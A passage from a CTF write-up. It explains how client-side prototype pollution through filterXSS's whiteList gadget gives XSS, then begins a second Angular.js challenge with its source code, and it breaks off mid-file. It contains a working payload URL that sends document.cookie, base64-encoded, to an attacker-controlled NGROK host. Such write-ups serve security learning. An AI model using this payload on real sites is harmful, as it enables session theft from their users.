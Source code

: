 Now that we have confirmed that, we need to look up for gadgets since this doesn't help thus far, luckily, **filterXSS** was also being called to sanatize our input from **name**, after doing some [research](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/js-xss.md), it appeared that we can utilize a gadget called **whiteList** where we can specify what to whitelist. 

Its a matter of connecting the puzzle peaces now, Client-Side Prototype Pollution > Utilizing the whiteList gadget > XSS. 

Putting all of it together and submitting it to the admin bot came back with flag in **document.cookie**

```
http://domihuvudet-1.ctfx.hackaplaneten.se:8001/index.php?__proto__[whiteList][img]=[onerrorr,src,c]&name=<img src=x onerror=fetch('https://NGROK/?'+btoa(document.cookie))>
```

# Legacy (18 Solves)

Legacy was an Angular.js based challenge, it was a static application where there wasn't room for user input. 

Upon loading the page, a fetch request was being made to **/helloworld.js**

```js
document.cookie="dummy=legacy1";
var myApp = angular.module('helloworld', ['ui.router']);

myApp.config(function($stateProvider) {
  var helloState = {
    name: 'hello',
    url: '/hello',
    template: '<h3>hello world!</h3>'
  }

  var aboutState = {
    name: 'about',
    url: '/about',
    template: '<h3>Its the UI-Router hello world app!</h3>'
  }

  var indexState = {
    name: 'index',
    url: '/',
    template: '<h3>Index</h3>'
  }

  template = document.createElement("span")
  template.innerHTML = "<h3>404</h3>path not found: "
  sanitizer = document.createElement("code")
  sanitizer.innerText = document.location
  template.appendChild(sanitizer)
  var f04State = {
    name: '404',
    url: '/404',
    template: template.innerHTML
  };

  $stateProvider.state(helloState);
  $stateProvider.state(aboutState);
  $stateProvider.state(indexState);
  $stateProvider.state(f04State);
});

myApp.config(["$locationProvider","$urlRouterProvider", function($locationProvider,$urlRouterProvider) {
```